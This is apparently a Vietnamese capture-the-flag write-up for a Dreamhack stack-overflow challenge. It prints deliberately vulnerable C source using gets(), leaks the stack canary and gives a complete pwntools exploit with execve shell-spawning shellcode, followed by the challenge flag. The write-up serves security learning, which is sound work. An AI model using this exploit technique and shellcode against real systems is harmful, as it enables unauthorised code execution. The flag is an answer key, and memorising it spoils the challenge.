 **1. Tìm lỗi**

Dùng lệnh file kiểm tra:

```
r2s: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=15e9dea98164c863a718820de5bd4261ea48e1d7, not stripped
```

Ta có source như sau:

```
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

Chương trình cho phép người dùng nhập vào một chuỗi bất kỳ với hàm read() và in chuỗi đó ra đầu ra. Sau khi đọc chuỗi đầu vào, chương trình cho phép người dùng nhập vào thêm một chuỗi bằng hàm gets(), mà không giới hạn kích thước của chuỗi đó. Điều này có thể dẫn đến tràn bộ đệm vì kích thước của mảng buf chỉ là 80 byte trong khi hàm gets() có thể cho phép người dùng nhập vào nhiều hơn.

Dùng lệnh ```checksec``` kiểm tra:

```
pwndbg> checksec
[*] '/mnt/d/CTF_Writeup/dream_hack/Return_to_Shellcode/r2s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Ta thấy stack đang ở Canary found nên cần leak canary.

**2. Ý tưởng**

- Ở lệnh ```read``` thì nhập tràn đến canary để %s có thể leak được địa canary
- Ở lệnh ```gets``` thì nhập shellcode và byte rác tràn đến ret với giá trị canary đã có để điều hướng lại shellcode mình đã ghi.

**3. Khai thác**

- Leak canary:

Đặt breakpoint sau lệnh ```read``` xem canary cách biến buf bao xa

![canary.png](photo/canary.png)

Canary đang cách biến buf 0x58 trên stack nhưng ở đây byte đầu canary đang là byte 0 nên %s sẽ ngừng đọc từ đó. Vậy sẽ ghi đè nó rồi lát trừ sau.

```
payload = b'a'*0x59
r.sendafter(b'Input: ', payload)
r.recvuntil(b'a'*0x58)
canary_leak = u64(r.recv(8))
canary_leak = canary_leak - 0x61
log.info('canary: ' + hex(canary_leak))
```

Tiếp theo check xem đã leak đúng giá trị canary chưa

![check.png](photo/check.png)

![check1.png](photo/check1.png)

Như vậy đã leak đúng địa chỉ canary.

- Tiếp theo nhập shellcode ở lệnh ```get``` và điều hướng về shellcode đã nhập

Để điều hướng về shellcode mình nhập thì phải lưu lại địa chỉ biến buf đã in ra ở đầu chương trình.

```
r.recvuntil(b'buf: ')
buf_leak = r.recv(14).decode()
log.info('buf: ' + buf_leak)
buf_leak = int(buf_leak, 16)
```

Như vậy đã có địa chỉ biến buf lẫn địa chỉ canary nên bây giờ chỉ cần nhập shellcode và byte rác sau đó giá trị canary và địa chỉ shellcode

```
payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload = payload.ljust(0x58, b'a')
payload += p64(canary_leak) + b'a'*8 + p64(buf_leak)
r.sendlineafter(b'Input: ', payload)
```

Đặt breakpoint ở ret xem có trả về shellcode của mình không

![shell.png](photo/shell.png)

Như vậy chương trình đã trả về shellcode của mình. Ta có script như sau:

```
from pwn import *

exe = ELF('r2s', checksec = False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 14646)

### Lấy địa chỉ biến buf
r.recvuntil(b'buf: ')
buf_leak = r.recv(14).decode()
log.info('buf: ' + buf_leak)
buf_leak = int(buf_leak, 16)

#input()
### Leak địa chỉ canary
payload = b'a'*0x59
r.sendafter(b'Input: ', payload)
r.recvuntil(b'a'*0x58)
canary_leak = u64(r.recv(8))
canary_leak = canary_leak - 0x61
log.info('canary: ' + hex(canary_leak))

### Nhập shell và điều hướng
payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload = payload.ljust(0x58, b'a')
payload += p64(canary_leak) + b'a'*8 + p64(buf_leak)
r.sendlineafter(b'Input: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

```Flag: DH{333eb89c9d2615dd8942ece08c1d34d5}```